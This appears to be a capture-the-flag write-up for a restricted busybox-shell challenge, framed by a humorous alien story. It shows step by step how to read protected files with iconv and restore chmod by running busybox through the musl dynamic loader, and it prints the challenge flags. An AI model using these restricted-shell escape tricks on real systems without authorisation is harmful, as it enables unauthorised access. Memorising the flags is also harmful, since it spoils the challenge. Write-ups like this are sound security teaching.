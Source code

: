 Your Choice!


    Having found the information you were looking for, while detailed, 
    it presents you with an interesting dilemma. There is a network of 
    "computers" not completely dissimilar to your computrator-machine 
    on your ship. You find yourself in possession of the credentials of 
    an individual on the planet named "SarahH." Great, with these you 
    can get right into the secret world of an earthling without them 
    knowing you're there. You access "SarahH home network," to find two 
    computers: "work" and "home." Not knowing what either of these are, 
    you have to make a decision.


No decisions, no compromises - we will hack both. Or else why we are 
sitting with laptop at home in such a great summer weekend?

Work Computer (ORME) (**sandbox**)

    With the confidence of conviction and decision making skills that 
    made you a contender for Xenon's Universal takeover council, now 
    disbanded, you forge ahead to the work computer. This machine 
    announces itself to you, surprisingly with a detailed description 
    of all its hardware and peripherals. Your first thought is "Why 
    does the display stand need to announce its price? And exactly how 
    much does 999 dollars convert to in Xenonivian Bucklets?" You 
    always were one for the trivialities of things. Also presented is 
    an image of a fascinating round and bumpy creature, labeled 
    "Cauliflower for cWo" - are "Cauliflowers" earthlings? Your 40 
    hearts skip a beat - these are not the strange unrelatable bipeds 
    you imagined earthings to be.. this looks like your neighbors back 
    home. Such curdley lobes. Will it be at the party? SarahH, who 
    appears to be a programmer with several clients, has left open a 
    terminal. Oops. Sorry clients! Aliens will be poking around 
    attempting to access your networks.. looking for Cauliflower. That 
    is, *if* they can learn to navigate such things.

Some network address is given, let's try to connect to it.

    $ nc readme.ctfcompetition.com 1337
    > whoami
    whoami: unknown uid 1338
    > ls -l
    total 8
    ----------    1 1338     1338            33 Jun 25 19:21 ORME.flag
    -r--------    1 1338     1338            28 Jun 25 19:21 README.flag
    > cat README.flag
    error: No such file or directory

Well, we have a shell, we have two files that must be read, but we 
have no `cat` (and `grep` etc.). We plan to read both, of course.
Let's have a look what we have then.

    > ls -l /bin /sbin /usr/bin /usr/sbin                                         
    /bin:
    total 800
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 arch -> /bin/busybox
    -rwxr-xr-x    1 65534    65534       796240 Jan 24 07:45 busybox
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 chgrp -> /bin/busybox
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 chown -> /bin/busybox
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 conspy -> /bin/busybox
    ..............
    /sbin:
    total 228
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 acpid -> /bin/busybox
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 adjtimex -> /bin/busybox
    ..............
    /usr/bin:
    total 1984
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 [ -> /bin/busybox
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 [[ -> /bin/busybox
    ..............
    -rwxr-xr-x    1 65534    65534        25216 Mar 19 09:56 iconv
    ..............
    -rwxr-xr-x    1 65534    65534        83744 Nov 15  2018 scanelf
    ..............
    /usr/sbin:
    total 16
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 addgroup -> /bin/busybox
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 adduser -> /bin/busybox
    ..............
    > 

Wow, a lot of stuff! First of all, this is Busybox system. It means 
that most of utilities are embedded in `busybox` executable and almost 
all other are just symlinks to it. Busybox first checks `argv[0]` value 
and executes appropriate piece of code. But also certain utility can be 
invoked by executing `busybox` directly and giving it proper arguments.
Try it:

    > busybox cat README.flag
    busybox can not be called for alien reasons.

Aha, this is modified version of busybox. After all, it would be too 
easy.
But still there are tons of stuff. And a lot of possible solutions. 
If we have little or no expirience with unix-like environments, then we 
can just go through the list command-by-command and read each man-page 
on the web. Quickly we can find, for example, that `iconv` utility can 
be used to read any file and print it to the terminal possibly but not 
necessary with codepage conversion. Give it a try:

    > iconv README.flag
    CTF{4ll_D474_5h4ll_B3_Fr33}
    > iconv ORME.flag
    iconv: ORME.flag: Permission denied

First flag is ours:

**CTF{4ll_D474_5h4ll_B3_Fr33}**

For the second one we need to find a way to change it's permission 
flags. Fortunately we are the owner of this file and are capable to 
change it's permissions. Unfortunately, `chmod` utility is abscent.
It is obvious, that `chmod` symlink is removed, but code of it is still 
contained in `busybox`. And maybe in some other places. Check it:

    > scanelf -s chmod -R /
     TYPE   SYM FILE 
    ET_DYN chmod /lib/libcrypto.so.1.1 
    ET_DYN chmod /lib/ld-musl-x86_64.so.1 
    ET_DYN chmod /usr/bin/upx 
    ET_DYN chmod /bin/busybox 

Yep, it is there. And `upx` utility looks very suspicious and certainly 
can be used to solve issue. But let's do some googling first, it is 
their contest after all!
Googling "*change permissions without chmod*" immediately leads us to 
the StackOverflow page with description of trick with loader 
`/lib/ld-linux.so`. Just use it to run `busybox` and `chmod` in it:

    > ls /lib
    apk
    firmware
    ld-musl-x86_64.so.1
    libc.musl-x86_64.so.1
    libcrypto.so.1.1
    libssl.so.1.1
    libz.so.1
    libz.so.1.2.11
    mdev
    > /lib/ld-musl-x86_64.so.1 /bin/busybox chmod +r ORME.flag
    > ls -l
    total 8
    -r--r--r--    1 1338     1338            33 Jun 25 19:51 ORME.flag
    -r--------    1 1338     1338            28 Jun 25 19:51 README.flag
    > iconv ORME.flag
    CTF{Th3r3_1s_4lw4y5_4N07h3r_W4y}

**CTF{Th3r3_1s_4lw4y5_4N07h3r_W4y}**
